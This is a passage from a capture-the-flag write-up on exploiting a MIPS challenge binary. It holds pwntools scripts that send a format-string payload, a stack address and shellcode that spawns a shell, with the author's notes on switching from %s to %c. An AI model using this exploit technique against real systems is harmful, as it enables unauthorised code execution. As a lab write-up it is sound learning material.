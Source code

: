 
We execute our code and notice that our bytes aren't quite what we are expecting it be:
![[Pasted image 20240802230913.png]]

Why is this happening? Since we're using the format specifier `%s` which is for strings, it seems to be modifying our data before placing it onto the stack. We'll need to switch to `%c` so that we can get the bytes as they are. We modify the script as so:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
        break *main
        break *main+88
        break *0x2b2ab1c4

        ''')


shellcode = asm(shellcraft.nop()) * 20
shellcode += asm(shellcraft.sh())

shellcode_len = len(shellcode)

print(hexdump(shellcode))
print(len(shellcode))


stack_addr = p32(0x2b2ab1c4)
io.sendline(b'%6$5c%1$'+ str(shellcode_len).encode() + b'c')
io.sendline(stack_addr)
io.sendline(shellcode)
io.sendline(b'D'*100)

io.interactive()
```

Since we're using `%c` now, we'll need to specify the length. The first format specifier changes from `%6$s` to `%6$5c`, so that it will read 5 bytes (address is 4 bytes plus the new line character `\n`). The next format specifier is based on the length of the shellcode. In this case our length is 204 bytes, so the format specifier will be `%1$204c`. We run this, hit the breakpoint at `*main+88` and find that the bytes are as we expect them to be:
![[Pasted image 20240802232304.png]]

Now let's try it without the debugger, but still locally:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = process(['qemu-mips-static', '-L', '.', './chall'])
#io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
#        break *main
#        break *main+88
#        break *0x2b2ab1c4
#
#        ''')


shellcode = asm(shellcraft.nop()) * 20
shellcode += asm(shellcraft.sh())

shellcode_len = len(shellcode)

```